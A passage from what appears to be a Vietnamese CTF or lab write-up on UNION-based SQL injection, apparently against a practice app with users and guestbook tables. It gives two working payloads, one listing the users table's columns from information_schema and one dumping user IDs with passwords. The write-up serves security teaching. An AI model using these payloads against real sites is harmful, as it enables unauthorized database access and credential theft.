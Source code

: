 Ta nhận được bảng users và guestbook. Thì ta có thể kết luận password có thể lưu vào bảng users. 

Roài ta sẽ tiếp tục xem table users có tổng cộng bao nhiêu cột

??? tip "Đừng xem"
     'union select 1,column_name from information_schema.columns where table_name="users" #

![](image-4.png)

Sau khi có thông tin các cột trong bảng thì dễ rồi, ta sẽ lấy ra password của các user bằng việc lấy ra cột password và cột user_id

??? tip "Đừng xem"
     'union select 1,concat(user_id," ",password) from users #

![](image-5.png)
